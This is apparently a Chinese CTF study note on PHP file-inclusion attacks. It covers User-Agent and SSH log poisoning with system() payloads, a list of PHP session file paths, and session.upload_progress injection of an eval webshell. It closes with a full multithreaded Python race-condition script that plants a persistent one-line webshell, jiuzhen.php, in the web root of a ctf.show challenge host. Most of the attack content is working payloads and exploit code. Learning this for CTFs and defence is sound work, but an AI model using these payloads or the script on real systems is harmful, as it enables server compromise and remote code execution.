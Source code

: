 ## **日志包含**
已知url上有文件包含
log日志记录ua，参考web日志路径
修改ua为phpshell,包含日志log文件
修改UA为：
1=system("ls");
1=system("tac fl0g.php");


^
ssh登录日志文件
把登录名改php的shell
包含ssh登录日志

^
## **session临时文件包含**
php的session保存在一个目录下
session内容可控时
文件包含session文件

php的session常见存储位置，里面为键值对 字符
```
/var/lib/php5/sess_PHPSESSID
/var/lib/php7/sess_PHPSESSID
/var/lib/php/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSED
/var/lib/php/sessions/sess_PHPSESSID
```
PHPSESSID来源F12的cookie会存储
如
```
/tmp/sess_99se2w33sddcs
```
^
**文件名和内容的控制：**
cookie中自定义新的Session ID会新初始化Session。如，设置PHPSESSID=AAA，PHP将会在服务器上创建一个文件: /tmp/sess_AAA"， 文件里存放了键值，键值由ini.get("session.upload_progress.prefix")+session.upload_progress.name值组成。
所以同时通过POST传参PHP_SESSION_UPLOAD_PROGRESS即可写入内容：
```
'PHP_SESSION_UPLOAD_PROGRESS':'<?php eval($_POST[1]);?>'
```

^
但因为默认配置session.upload_progress.cleanup=on（意思是当文件上传结束后，php将会立即清空对应session文件中的内容）。所以，我们文件上传后，session文件内容会被立即清空。这就要利用竞争，在session文件内容被清空前进行包含利用。

^
**写入session文件同时文件包含写小马，小马jiuzhen.php密码3：**
```
import requests
import io
import threading

url='http://9a77fcb3-6f3c-4bd6-a247-07bfe6766509.challenge.ctf.show:8080/'
sessionid='ctfshow'
data={
   "1":"file_put_contents('/var/www/html/jiuzhen.php','<?php eval($_POST[3]);?>');"
}
#这个是访问/tmp/sess_ctfshow时，post传递的内容，是在网站目录下写入一句话木马。这样一旦访问成功，就可以蚁剑连接了。
def write(session):#/tmp/sess_ctfshow中写入一句话木马。
   fileBytes = io.BytesIO(b'a'*1024*50)
   while True:
      response=session.post(url,
         data={
         'PHP_SESSION_UPLOAD_PROGRESS':'<?php eval($_POST[1]);?>'
         },
         cookies={
         'PHPSESSID':sessionid
         },
         files={
         'file':('ctfshow.jpg',fileBytes)
         }
         )

def read(session):#访问/tmp/sess_ctfshow，post传递信息，在网站目录下写入木马。
   while True:
      response=session.post(url+'?file=/tmp/sess_'+sessionid,data=data,
         cookies={
         'PHPSESSID':sessionid
         }
         )
      resposne2=session.get(url+'jiuzhen.php');#访问木马文件，如果访问到了就代表竞争成功
      if resposne2.status_code==200:
         print('++++++done++++++')
      else:
         print(resposne2.status_code)

if __name__ == '__main__':

   evnet=threading.Event()
   #写入和访问分别设置5个线程。
   with requests.session() as session:
      # 当你使用 requests.Session() 创建了一个会话对象后，这个会话对象会自动处理cookie。
      # 如果你在会话中发送了一个请求，服务器返回了cookie，那么这些cookie会被会话对象自动保存，并且在后续使用同一个会话对象发送的请求中自动携带这些cookie。
      for i in range(5):
         threading.Thread(target=write,args=(session,)).start()
      for i in range(5):
         threading.Thread(target=read,args=(session,)).start()

   evnet.set()
```



